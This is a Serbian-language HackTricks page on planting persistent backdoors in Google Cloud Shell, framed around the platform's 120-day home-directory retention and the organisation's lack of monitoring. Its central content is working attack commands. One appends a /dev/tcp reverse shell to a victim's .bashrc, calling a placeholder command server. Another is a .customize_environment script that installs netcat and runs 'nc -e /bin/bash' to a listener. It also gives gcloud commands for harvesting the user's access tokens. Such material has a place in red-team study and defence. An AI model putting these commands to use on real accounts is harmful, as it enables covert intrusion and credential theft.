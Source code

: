 # GCP - Cloud Shell Persistencija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github repozitorijume.

</details>

## Cloud Shell

Za više informacija pogledajte:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistentna Vrata za Povratnu vezu

[**Google Cloud Shell**](https://cloud.google.com/shell/) pruža vam pristup komandnoj liniji za vaše cloud resurse direktno iz vašeg pregledača bez dodatnih troškova.

Možete pristupiti Google-ovom Cloud Shell-u preko **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloud-u** ima pristup potpuno autentifikovanom Cloud Shell instanci (Servisni nalozi mogu, čak i ako su Vlasnici organizacije).
2. Pomenuta instanca će **zadržati svoj matični direktorijum najmanje 120 dana** ako se ne desi nikakva aktivnost.
3. Ne postoji **mogućnost za organizaciju da nadgleda** aktivnost te instance.

To u osnovi znači da napadač može postaviti vrata za povratnu vezu u matičnom direktorijumu korisnika i sve dok se korisnik povezuje na GC Shell svakih 120 dana barem, vrata za povratnu vezu će preživeti i napadač će dobiti shell svaki put kada se pokrene samo radeći:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

U home folderu postoji još jedan fajl pod nazivom **`.customize_environment`** koji će se **izvršiti svaki put** kada korisnik pristupi **cloud shell-u** (kao u prethodnoj tehnici). Samo ubacite prethodnu backdoor ili neku sličnu kako biste održali postojanost dok god korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da će se **prvi put kada se izvrši radnja koja zahteva autentifikaciju**, pojaviti prozor za odobrenje u korisnikovom pregledaču. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to bi moglo izazvati sumnju i potencijalno ugroziti korišćenu metodu upornosti.
{% endhint %}

Ovo je prozor za odobrenje koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) viđen u korisničkoj sesiji pregledača:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloud shell, prozor za odobrenje se neće pojaviti i možete **prikupiti token korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

U osnovi, koriste se ove 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (će vam omogućiti da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (će pokrenuti instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (će vam reći IP adresu Google Cloud Shell-a)

Ali možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github repozitorijume.

</details>
